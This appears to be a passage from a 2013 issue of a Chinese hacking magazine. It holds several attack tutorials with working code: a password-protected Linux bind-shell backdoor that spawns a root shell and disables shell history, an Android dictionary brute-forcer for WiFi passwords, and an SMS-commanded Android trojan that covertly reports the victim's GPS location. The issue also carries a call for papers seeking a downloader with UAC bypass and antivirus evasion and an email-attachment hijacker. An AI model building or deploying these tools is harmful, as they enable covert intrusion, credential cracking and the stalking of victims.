前面是分析过程，即 Hook 的前期准备，后面是实际编程部分。首先对 DAPI 挂钩，在钩子函数内进行栈回溯；每回溯一层，就判断其返回地址所指向的内容是否与特征码匹配，如果一直到栈解析结束都没有，表示当前并不是 UDAPI 的调用；如果匹配成功，则表示当前正处在 UDAPI 的调用过程中，并且当前匹配栈帧是 UDAPI 紧邻的前一栈帧，此时继续解析一层，就达到了 UDAPI 所在栈帧。根据该帧的 EBP 值来计算参数的位置，就可以获取参数内容了。接下来就是钩子函数的主体代码了，如果 DAPI 位置选择妥当的话，主体代码的编写不用有任何顾虑。伪代码如下：

```c
CurrentEBP = EBP;
uFlag = 0;
while (CurrentEBP != 0)
{
    PreEBP = GetData(CurrentEBP);        /* 读取 CurrentEBP 地址处值为前栈帧基址 */
    RetAddress = GetData(CurrentEBP+4);  /* 读取当前返回地址 */
    LowerCode = GetData(RetAddress);     /* 读取前四个字节 */
    UpperCode = GetData(RetAddress+4);   /* 读取后四个字节 */
    if ((LowerCode == (ULONG)CharaCode) && UpperCode == (CharaCode >> 32))
    /* 特征值匹配 */
    {
        printf("In UDAPI!\n");
        uFlag = 1;
        break;
    }
    CurrentEBP = PreEBP;
}
if (uFlag)
{
    CurEBP = GetData(PreEBP);    /* 根据 PreEBP 继续回溯一层 */
    /* 根据 CurEBP 定位参数位置，第一个参数位于 EBP+8 处 */
    HookFunction();              /* 钩子函数主体部分 */
}
```

如果前面在记录特征码时，还记录了相隔的栈帧数，在回溯编码时可以直接回溯该栈帧数再进行特征值匹配，这样可以大大提升效率。这虽然也是一种硬编码，但这种硬编码是建立在前期详尽的考察上，并且兼容性和可移植性很好，完全可以采用。

- 选定一个它会调用的 DAPI；
- 记录调用点作为特征码；
- Hook 该 DAPI；
- 回溯到 UDAPI；
- 编写钩子主体代码。

## 总结

本文旨在描述一种现今很流行、原理简单而又强大的技术：栈回溯。前面部分对栈的结构、回溯的原理进行了讲解，后面部分则是介绍这种技术的一种应用，即 Hook 未导出的 API。本文给出了详细的思路，但由于难点和主要工作在选定导出 API 和记录特征码，这两者需要根据实际情况手动逆向、调试来完成，所以本文以文字描述和伪代码为主，图示为辅，来解析技术原理和细节。

栈回溯的应用很广，本文只是提到了一种。有前辈高人在很久前就贴在网上的基于调用栈的技术文章，如 MJ0011 的《基于 CallStack 的 Anti-Rootkit HOOK 检测思路》和 gzzy 的《基于栈指纹检测缓冲区溢出的一点思路》。现今还可以利用栈回溯检测 shellcode 攻击，包括 ROP 形式。因此，对于我等安全界的新人来说，打好基础非常关键。

### Linux 后门技术研究：正向监听后门

文/图 blackcool

我们前面文章介绍的后门是通过替换 login 程序来实现的，需要在系统中安装 Telnet 软件才能实现后门连接，如果系统本身没有 Telnet，就需要我们手动安装，很容易引起管理员的怀疑。为了解决这个问题，本文将给大家介绍如何使用 Socket 编写一个本地端口监听后门的 demo。

首先是后门思路，相信大家对 Socket 都已经很熟悉了，我们的主要思路就是先创建 Socket 连接，使之处于监听状态，然后循环从 Socket 接收数据，当接收到的密码错误则关闭连接，接收密码正确时则打印欢迎信息并等待接收 shell 命令并执行。

思路清晰了，代码实现就不会太难了，主要代码如下，首先是引入必要的头文件。

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <strings.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <signal.h>
```

引入功能代码中要使用的头文件后，再定义后门中的基本常量，主要是监听端口和后门密码。定义如下：本地监听的端口是 1017，后门连接密码是 blackcool。具体代码如下：

```c
#define PORT 1017
#define MDPASS "blackcool"
```

下面就是后门的主函数了，主要功能在下面实现，我们看下主要代码。定义 Socket 的代码：

```c
struct sockaddr_in l, r;
l.sin_family = AF_INET;
l.sin_port = htons(PORT);
l.sin_addr.s_addr = INADDR_ANY;
bzero(&(l.sin_zero), 8);
```

创建 Socket 并绑定的代码：

```c
c = socket(AF_INET, SOCK_STREAM, 0);
bind(c, (struct sockaddr *)&l, sizeof(struct sockaddr));
```

设置 Socket 处于监听状态的代码：

```c
listen(c, 3);
```

循环接收数据并验证密码的代码：

```c
while ((d = accept(c, (struct sockaddr *)&r, &e)))
{
    if (!fork())
    {
        recv(d, p, 1000, 0);
        // 当密码错误时，打印“error”并关闭 Socket
        if (strncmp(p, MDPASS, 32) != 0)
        {
            send(d, "error!", 5, 0);
            close(d);
            exit(1);
        }
        // 密码正确时打印欢迎信息，继续接收数据并执行 shell 命令
        printf("hello,blackcool.\n");
        setreuid(0, 0);
        setenv("PATH", "/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin/:.", 1);
        unsetenv("HISTFILE");
        execl("/bin/sh", "sh", (char *)0);
    }
}


```

主要代码就是这些，都是比较基础的系统编程，将代码保存为 shell.c，并用 gcc 进行编译。编译完成后，会在该目录下生成 shell 文件，就是我们的后门程序了，使用命令“sudo ./shell”来启动后门。

启动完成后，就可以进行连接了。用 nc 进行远程连接，使用命令“nc 127.0.0.1 1017”进行连接并输入密码。密码正确后会输出提示信息，然后就可以执行 shell 命令了，如图 1 所示。
图 1

至此，这个简单的后门就完成了，希望以后就 Linux 下的后门实现与大家多多交流。

（完）

## Android 系统中暴力破解 WIFI 密码

文/图 顽石

手机、平板等智能终端已经十分普及，与此同时对网络的依赖也愈加强烈；每到一个地方，拿出手机、平板看看附近有无可用的 WIFI 热点已成为生活中的一个习惯。然而，通常情况下绝大多数 WIFI 热点都是加密的，即需要输入密码才可以接入。而本文则将教你如何自己开发一个 Android 平台下的 WIFI 密码暴力破解应用程序。

## WIFI 破解基础

通常，在设置 WIFI 的加密方式时，有 WEP 和 WPA 两种可选。而出于安全性考虑，现在一般路由器等推荐使用 WPA 的加密方式。对 WEP 方式加密的 WIFI 网络，很早之前就已经有破解方法了，典型破解工具有集成在 BackTrack（BT）中的 aircrack-ng 系列软件。Aircrack-ng 工具破解的基本思路是：对指定 WIFI 热点进行抓包，数据包累积到足够数量时即可；再对抓到的包进行破解，即可获得密码。这种抓包破解的方法对 WEP 的破解是十分有效的，但对于越来越广泛使用的 WPA 方法却很难奏效。目前对 WPA 加密方式的 WIFI 热点的有效破解方法均需要字典来实现暴力破解，能否破解成功、破解所需时间都在一定程度上依赖于字典的完备性。

考虑到 WIFI 密码破解的有效性和实用性，我们所实现的 WIFI 破解工具至少需要满足如下要求：

- 可以对 WEP、WPA 方式加密的 WIFI 进行破解；
- 应用程序可以支持后台运行，避免长时间破解过程中用户无法切换应用程序的尴尬；
- 能够从 SD 卡中加载密码字典；
- 不使用 Root 权限（减少对系统的依赖，最小权限原则）。

## Android 开发相关基础

这里主要对本文所涉及到的 Android 系统中有关 WIFI 和服务的相关重点知识进行简单介绍。

### 1）Android 系统下的 WIFI 管理

Android 系统所提供的对 WIFI 进行相关操作和管理功能的主要有以下几个类：ScanResult、WifiManager、WifiConfiguration 和 WifiInfo，下面对其分别详细介绍。

### ① ScanResult

这个类主要用来保存和处理通过 WIFI 硬件的扫描获取到的周边 WIFI 热点信息，通常多个热点信息形成一个 list，即 List<ScanResult>。其所包含的信息包括相应热点的接入点名称 SSID、接入点信号的强弱、接入点的安全模式 Capabilities——WEP、WPA 等。本文中主要用到的有 SSID 和 Capabilities 这两个字段的信息情况。

### ② WifiConfiguration

这个类主要用来配置一个有效的 WIFI 连接时使用。其中用到的几个子类如下：

- WifiConfiguration.AuthAlgorithm：用来判断加密方法；
- WifiConfiguration.GroupCipher：获取使用 GroupCipher 的方法来进行加密；
- WifiConfiguration.KeyMgmt：获取使用 KeyMgmt 进行；
- WifiConfiguration.PairwiseCipher：获取使用 WPA 方式的加密；
- WifiConfiguration.Protocol：获取使用哪一种协议进行加密；

### Android 远程监控技术

- wifiConfiguration.Status：获取当前网络的状态。

### ③ WifiInfo

这个类主要用来在配置好一个有效连接后，获取关于该连接的各种信息，包括：

- getBSSID()：获取 BSSID；
- getDetailedStateOf()：获取客户端的连通性；
- getHiddenSSID()：获得 SSID 是否被隐藏；
- getIpAddress()：获取 IP 地址；
- getLinkSpeed()：获得连接的速度；
- getMacAddress()：获得 MAC 地址；
- getRssi()：获得 802.11n 网络的信号；
- getSSID()：获得 SSID。

### ④ WifiManager

这个类的功能如其命名方式——对 WIFI 进行管理，本文所使用的管理功能主要有：

- addNetwork(WifiConfiguration config)：添加配置好的网络；
- startScan()：开始扫描；
- getScanResults()：获取扫描测试的结果；
- setWifiEnabled()：让一个连接有效；
- enableNetwork(int netId, Boolean disableOthers)：连接一个连接；
- disableNetwork(int netId)：让一个网络连接失效；
- disconnect()：断开连接；
- getConfiguredNetworks()：获取保存的配置好的网络连接；
- getConnectionInfo()：获取当前连接的信息；
- removeNetwork()：移除某一个网络；
- saveConfiguration()：保留一个配置信息。

### 2）Android 中的服务

### ① IntentService

在 Android 开发中，需要创建后台运行的程序时，通常要使用到 Service。Android 的 Service 可以简单划分为两类：通过继承 Service 类开发出来的普通 Service 类；通过继承 IntentService 开发出来的特殊 IntentService 类。两者的一个主要区别在于：前者是 Android 的默认 Service 类，运行在主线程中；后者则是异步服务，即在一个新的 Service 线程中运行相关 Service 代码。

因此，为了避免在服务中进行耗时的操作（WIFI 密码破解）时，导致主线程阻塞，引起程序不响应，即 ANR（Application Not Responding），我们需要在一个 IntentService 中实现 WIFI 密码破解过程。

对于 IntentService 而言，其服务的线程函数为 onHandleIntent，即在该函数中实现密码破解即可。

### ② Service 和 Activity 的通信

在密码破解过程中，Service 线程需要向 Activity 线程传递数据，因此需要解决 Service 和 Activity 的通信问题。

熟悉 Windows 的一定对消息不会陌生。同样的，在 Android 中除了 Broadcast 之外，也可以用 Message 进行通信，而且十分简单。

在 Activity 初始化时，设置消息处理函数。

```java
@Override
public void onCreate(Bundle savedInstanceState) {
    //……
    handler = new Handler(){
        public void handleMessage(Message msg){
            // obj 不一定是 String 类，可以是别的类
            String message = (String) msg.obj;
            // 根据 message 中的信息，进行相关处理
        }
    };
    //……
}
```

在服务中使用 handler 向 Activity 发送消息。

```java
Message message = Message.obtain();
message.obj = "cracking....";
handler.sendMessage(message);
```

## 暴力破解工具的实现

有了前面的前置基础知识，接下来我们实现破解程序就比较容易了。整个程序主要由三大类实现，即：

- **MainActivity 类**：继承自 Activity，实现破解的初始化和破解过程的开启、停止控制；
- **CrackWifiService 类**：继承自 IntentService，通过调用 wifiman 类中的破解函数，实现后台破解 WIFI；
- **Wifiman 类**：实现对 WIFI 的管理，尤其实现了使用指定参数自动连接指定热点的过程。

接下来对其中的核心部分重点介绍。

### 1）后台破解服务：CrackWifiService

#### ① 服务配置

添加 CrackWifiService 时，需要在 Activity 的 onCreate 函数中注册该服务，即：

```java
private Intent crackWifiServiceIntent;

@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    ……
    crackWifiServiceIntent = new Intent(this, CrackWifiService.class);
}


```

#### ② 破解流程

WIFI 破解流程主要是在 CrackWifiService 中的 onHandleIntent 函数中实现，破解流程如图 1 所示。
图 1 破解流程

整个过程中，重点在于判断需要破解的 SSID 是否存在，以及尝试连接指定 SSID 的 WIFI 热点。这两个功能在类 wifiman 中实现，下节将详述。

### 2）WIFI 的搜索和连接：wifiman

Wifiman 类实现了所有用于 WIFI 连接的相关函数，其中包含四个核心变量：

```java
// 定义一个 WifiManager 对象，实现 wifi 管理
private WifiManager mWifiManager;

// 定义一个 WifiInfo 对象，获取指定网络连接的信息
private WifiInfo mWifiInfo;

// 保存扫描出的网络连接列表
private List<ScanResult> mWifiList;

// 网络配置信息列表
private List<WifiConfiguration> mWifiConfigurations;
```

下面将对其中的 **WIFI** 扫描和 **WIFI** 连接进行介绍。

- 1. 搜索指定 SSID 的 WIFI 网络

在连接到指定 SSID 的 WIFI 网络之前，需要判断当前区域内能否搜索到该 SSID 的 WIFI 网络。在 wifiman 类中，通过函数 IsSSIDExist 实现 SSID 存在性的判断。其流程为：搜索当前区域内的 WIFI 网络；获取每个 WIFI 网络的信息，判断每个网络的 SSID 是否和需要破解的 SSID 一致；如果搜索结果中存在指定 SSID 的网络，则返回成功；否则返回 SSID 不存在。下面分别介绍该过程。

- 1. 搜索当前区域的 WIFI 网络

该功能由 wifiman 中的 startScan 实现。

```java
/* 扫描附近的网络 */
public void startScan() {
    // 打开 wifi
    if (!mWifiManager.isWifiEnabled()) {
        mWifiManager.setWifiEnabled(true);
    }
    // 扫描
    mWifiManager.startScan();
    try {
        Thread.sleep(3000);
    } catch (InterruptedException e) {
        e.printStackTrace();
    }
    mWifiList = mWifiManager.getScanResults();
    // 得到配置好的网络连接
    mWifiConfigurations = mWifiManager.getConfiguredNetworks();
}
```

- 2. 判断 SSID 是否存在

在 IsSSIDExist 中：

```java
int count = 0;
count = mWifiList.size();
count--;
while (count >= 0) {
    // 判断 SSID 是否相等
    if (mWifiList.get(count).SSID.equalsIgnoreCase(strSSID)) {
        // 若存在，则获取 WIFI 加密方式
        if (true == mWifiList.get(count).capabilities.contains("WPA")) {
            cipherType = WifiCipherType.WIFICIPHER_WPA;
            bExist = true;
        } else if (true == mWifiList.get(count).capabilities.contains("WEP")) {
            cipherType = WifiCipherType.WIFICIPHER_WEP;
            bExist = true;
        } else {
            bExist = false;
            break;
        }
    }
    count--;
}
return bExist;
```

#### ② 连接到指定的 WIFI 网络

连接到指定的 WIFI 网络由两步实现：根据密码、加密类型和 SSID 设置信息并连接；获取连接状态，判断是否连接成功。

(1) 尝试连接到指定 WIFI  
该功能由 wifiman 中的 connect 实现。

```java
// 传入要连接的无线网和密码，类型已经在判断 SSID 是否存在时获得
public boolean Connect(String SSID, String Password) {
    // 开启 wifi 等操作
    ……

    // 创建配置信息
    WifiConfiguration wifiConfig;
    wifiConfig = CreateWifiInfo(SSID, Password, cipherType);
    if (wifiConfig == null) { return false; }

    // 将配置信息添加进去，并连接
    int netID = mWifiManager.addNetwork(wifiConfig);
    return mWifiManager.enableNetwork(netID, true);
}
```

(2) 判断连接结果  
连接结果由 wifiman 中的 getConnectState 函数实现。共返回三种连接结果：成功、失败和正在连接（需要重复判断，直到成功或失败）。

```java
/* 获得当前的连接状态 */
public String getConnectState() {
    mWifiInfo = mWifiManager.getConnectionInfo();
    SupplicantState suppState = mWifiInfo.getSupplicantState();
    NetworkInfo.DetailedState state;
    state = mWifiInfo.getDetailedStateOf(suppState);
    String strRet;
    switch (state) {
        // 连接失败
        case IDLE:
        case DISCONNECTED:
        case FAILED:
        case BLOCKED:
        case DISCONNECTING:
            strRet = "failed";
            break;
        // 正在连接
        case SCANNING:
        case AUTHENTICATING:
        case CONNECTING:
            strRet = "connecting";
            break;
        // 连接成功
        case OBTAINING_IPADDR:
        case CONNECTED:
            strRet = "connected";
            break;
        default:
            strRet = "failed";
    }
    return strRet;
}


```

## 测试

通过前面的介绍，基本上可以实现一个简单的针对 WEP/WPA 的 WIFI 暴力破解小工具，其运行界面如图 2 所示。
图 1 程序运行界面

之后在已安装了 Android 4.2 的 Desire HD 上进行真机测试，其中 xxxx 是笔者所使用的 WIFI 热点，加密类型为 WPA2/PSK。字典文件信息如图 3 所示，输入 SSID 开始破解，其中正确密码为红色遮盖的那个，如图 4 和图 5 所示。
图 3 字典和破解结果
图 4 开始破解

图 5 破解成功

## 总结

本文详细介绍了如何自己动手开发一款基于 Android 平台的 WIFI 密码破解工具的流程。经过测试，该破解工具能够对 WEP、WPA 利用字典进行有效的破解；同时，该工具支持后台运行，即开始破解之后可以按手机的 Home 键回到桌面，进行其他操作，此时程序将在后台继续破解 WIFI 密码，破解结果保存在 SD 卡中的 crackwifi 目录下的 password.txt 中，SSID 和密码以冒号“:”分隔。

### Android 远程监控系统设计之架构设计

文/图 秦妮

近年来手机病毒横行，用户隐私遭到严重安全威胁，手机木马已经蔓延到各种操作系统平台，比如目前最火爆的 Android 平台。本文将和大家分享 Android 手机木马的设计及开发，在了解了木马原理后才能做到更好的防护。

与传统木马一样，手机木马也分为控制端和服务端，控制端用来发送控制指令并接收反馈信息，服务端则是安装在受害者手机上执行恶意指令的程序。从设计角度来说，控制端可以是短信指令形式或者网站指令形式，服务端接受短信指令执行指令操作，或者服务端定期访问指令 URL 获取指令信息并执行相关指令。

我的设计思路是前者，使用短信作为控制指令，这样的设计比较简单，可以省去客户端的开发，使用手机自带的短信功能即可，类似于 webshell，只要有浏览器即可进行控制。

大体思路如下：攻击者将远控安装到受害者手机上，攻击者发送攻击指令，受害者手机执行相关代码，并将结果反馈给攻击者。比如攻击者发送短信指令“QN#weizhi”到受害者手机，受害者将回复短信“...”给攻击者，从而实现对受害者的定位追踪。软件原理及结构如图 1 所示。
图 1

了解原理后就可以着手开发了，使用通用的 Android 开发环境及步骤即可。首先申请权限，我们要用到收发短信和读取短信的权限，还有就是定位的权限。也就是说，需要在 AndroidManifest.xml 中添加如下权限：

```xml
<uses-permission android:name="android.permission.SEND_SMS"/>
<uses-permission android:name="android.permission.RECEIVE_SMS"/>
<uses-permission android:name="android.permission.ACCESS_GPS"/>
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
<uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
```

然后是定义广播接收者，用来接收短信广播，广播接收者也是在 AndroidManifest.xml 中添加，代码如下：

```xml
<receiver android:name=".SMSReceiver">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"></action>
    </intent-filter>
</receiver>
```

接下来是实现短信接收处理类了，首先是接收并获取短信信息，代码如下：

```java
Intent intent = getIntent();
Bundle bundle = intent.getBundleExtra("mySMS");
if (bundle != null) {
    Object[] pdus = (Object[]) bundle.get("pdus");
    SmsMessage sms = SmsMessage.createFromPdu((byte[]) pdus[0]);
    from = sms.getOriginatingAddress();
    message = sms.getMessageBody();
}
```

接下来是判断是否为指令，这里使用的是短信开头如果是“QN#”则是控制指令信息，因此只要判断短信前几位字符即可。

```java
if (message.startsWith("QN#")) {
    message = message.replaceFirst("QN#", "");
}
```

如果是指令信息，则解析具体指令，也就是判断“QN#”以后的信息。如果是“weizhi”指令，则调用 getLocation 函数获取当前位置坐标并发送给攻击者。

```java
if (message.toLowerCase().contains("weizhi")) {
    getLocation();
}
```

getLocation 函数中有两个功能，分别是发短信和定位，下面逐一实现这些功能，先是发短信，代码如下：

```java
private void sendSMS(String phoneNumber, String message)
{
```

### Android 远程监控技术

```java
PendingIntent pi = PendingIntent.getActivity(this, 0,
    new Intent(this, SMSRemote.class), 0);
SmsManager sms = SmsManager.getDefault();
sms.sendTextMessage(phoneNumber, null, message, pi, null);
}
```

然后是获取当前位置坐标，代码如下，具体 API 使用就不多说了，Android SDK 里有很详细的说明和实例代码。

```java
private void getLocation() {
    LocationManager locationM = (LocationManager)
    this.getSystemService(Context.LOCATION_SERVICE);
    List<String> providers = locationM.getProviders(true);
    Location loc = null;
    for (int i=providers.size()-1; i>=0; i--) {
        loc = locationM.getLastKnownLocation(providers.get(i));
        if (loc != null) break;
    }
    double[] gps = new double[2];
    if (loc != null) {
        gps[0] = loc.getLatitude();
        gps[1] = loc.getLongitude();
    } else {
        gps[0] = -1;
        gps[1] = -1;
    }
    sendSMS(from,"Latitude: " + String.valueOf(gps[0]) + "\nLongitude: "
        + String.valueOf(gps[1]));
}


```

到这里整个远控框架已经很清楚了，还可以自己添加其他功能和指令，添加的方法分以下几步：

- 1. 添加权限
- 2. 判断指令
- 3. 指令功能实现

开发手机远程控制是不是也没有那么复杂呢，代码编写好了，下面测试下我们的定位追踪功能吧。本文使用虚拟机进行测试，开启两部虚拟手机，攻击者号码是 **15555215556**，受害者号码是 **15555215554**。攻击者发送攻击指令“**QN#weizhi**”到受害者号码，受害者接收到指令并执行，然后发送反馈短信给攻击者，可以看到在反馈短信中存在当时的位置坐标，如图 2 所示。
图 2

注意，这里有两点要说明一下，一是我们为了测试效果没有隐藏服务端界面，并将调试信息打印在受害者手机界面中，在实际开发成品时可以实现后台静默执行。二是在反馈的位置短信中，位置坐标是 -1.0 和 -1.0，这是没有实际意义的数据，原因是虚拟机没有真实 GPS 设备，不能实现真实的定位，仅返回 -1.0 和 -1.0 表示功能正常，在真机测试中是可以返回真实位置信息的。

本文到这里基本结束了，在后续的文章中将继续增加相关功能，希望大家喜欢。

（完）

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：**hadefence@gmail.com**，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬从优！第 6 期的选题如下：

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. 暴力破解密码

要求：

- 1) 针对远程桌面、VNC、SSH、R-admin、PCAnywhere、FTP 暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7。

## 3. 搜索已删除文件

说明：

搜索磁盘中已经删除的文件、文件夹，实现如下功能。

要求：

- 1) 支持 FAT32/NTFS 文件系统；
- 2) 恢复文件名称、路径以及时间等信息；
- 3) 尝试恢复文档类文件，比如 DOC、PDF 等（可选）；
- 4) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现，程序可以在命令行下运行。

## 4. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi‑Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 5. Windows7 下 Hook API

要求：

- 1) Ring3 下针对 lsass.exe 进程的 CryptGenKey 函数进行挂钩，跳到自己的函数中，再返回到真实函数；
- 2) 支持 32 位和 64 位 Windows7；
- 3) 使用 VC++2008 编译工具实现，控制台程序；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能。

## 6. 编写下载者

说明：

编写一个下载者程序，每次开机启动后，都能从指定网站获取数据，下载并执行。

要求：

- 1) 将该程序上传到邮箱，然后下载到机器上运行，不会有 SmartScreen 提示。
- 2) Windows UAC 安全设置最高，程序自身运行时无提示，能获取系统管理员权限。
- 3) 执行其他程序也能无提示获取系统管理员权限。
- 4) 能绕过 360 安全卫士监控，加载驱动保护自身，隐藏和保护指定的文件，隐藏连接，使用 Xuetr、PowerTool 工具无法查看到文件和连接。
- 5) 免杀过 360 安全卫士、360 杀毒等主流杀软。
- 6) 程序没有签名。
- 7) 运行的系统补丁打到最新。
- 8) 支持操作系统 Windows XP/2003/Vista/7/2008/8。
- 9) 以上所有功能，能在 32 位和 64 位系统上通用稳定。

## 7. 邮箱附件劫持

说明：

编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 1）支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 2）支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

## 8. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 poc 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 html 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实方讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。
- 4) 稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等奖、二等奖、三等稿件，稿费标准如下：
- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系：投稿信箱：hadefence@gmail.com；编辑 QQ：675122680。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

## 《黑客防线》6 期文章目录

总第 150 期 2013 年

### 漏洞攻防

- Lotus Notes 邮件系统漏洞检测（__无言）............................2
- Linux kernel 本地权限提升漏洞的简单分析（修炼中的柳柳）..........7
- 通达 OA 协同办公系统任意文件上传 0Day 漏洞剖析（王坤）......10
- 从乐峰网帐户劫持看非登录状态下 XSS 利用（unity）..............15

### 编程解析

- DNS 隧道反弹式 CMD Shell 的实现（DebugMe）....................17
- 打造 NTFS 文件系统下的数据恢复软件（爱无言）.................23
- Windows 同步机制中的无锁单链表实现（王晓松）.................26
- Yahoo! 邮箱自动登录下载邮件程序（耿靓）.......................30

### Android 远程监控技术

- Android 远程监控系统设计之伪造短信（秦妮）....................32
- 2013 年第 6 期杂志特约选题征稿.................................35
- 2013 年征稿启示.................................................39

### Lotus Notes 邮件系统漏洞检测

文/图 __无言

Lotus Notes 是 IBM 公司开发的一套邮件系统，作为优秀的内部邮件系统，在中国应用极为广泛，很多单位将其作为办公 OA 及邮件系统使用。Notes 的安全特性总体良好，通过使用密钥和其它安全手段，提供了四级安全措施：验证、存取控制、字段级加密和电子签名。网上有一些关于 Notes 安全风险的文档，但大部分泛泛而谈，没有什么利用价值。怎么办呢？还是自己慢慢探索吧！

### 邮件原理

电子邮件不是一种“终端到终端”的服务，而是“存储转发式”服务。首先，客户端利用客户端软件使用 SMTP 协议将要发送的邮件发送到本地邮件服务器，本地服务器再查看接收来的邮件的目标地址，如果目标地址在远端，则本地邮件服务器就将邮件发往下一个邮件服务器或直接发往目标邮件服务器。如果客户端想要查看其邮件内容，则必须使用 POP 协议接收才可以看到。

SMTP 是一个简单的 ASCII 码协议，发送的电子邮件允许传输 7 位或 8 位（可扩展的 ASCII 码）文本字符。

